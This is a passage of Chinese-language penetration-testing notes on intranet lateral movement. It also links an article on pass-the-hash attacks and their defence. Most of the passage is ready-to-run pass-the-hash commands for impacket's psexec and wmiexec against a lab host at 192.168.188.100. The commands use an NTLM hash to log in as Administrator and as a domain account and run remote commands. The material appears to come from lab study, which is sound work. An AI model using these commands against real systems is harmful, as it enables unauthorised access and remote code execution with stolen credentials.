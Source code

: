 除此之外还有psexec，wmiexec，rpcdump等等，（之后再写）

[PTH(Pass The Hash)哈希传递攻击手法与防范](https://cloud.tencent.com/developer/article/1829649)

### psexec

这里的和上面的那个psexec不一样，这个是impacket套装里的

```
psexec.exe Administrator@192.168.188.100 -hashes 00000000000000000000000000000000:520126a03f5d5a8d836f1c4f34ede7ce
or
psexec.exe Administrator@192.168.188.100 -hashes :520126a03f5d5a8d836f1c4f34ede7ce
```

![image-20220319161231967](内网渗透&横向移动/image-20220319161231967.png)



### wmiexec

```
wmiexec.exe -hashes :520126a03f5d5a8d836f1c4f34ede7ce ghost/dc@192.168.188.100 "ipconfig"

wmiexec.exe -hashes :520126a03f5d5a8d836f1c4f34ede7ce ghost/dc@192.168.188.100
```

![image-20220319160157984](内网渗透&横向移动/image-20220319160157984.png)
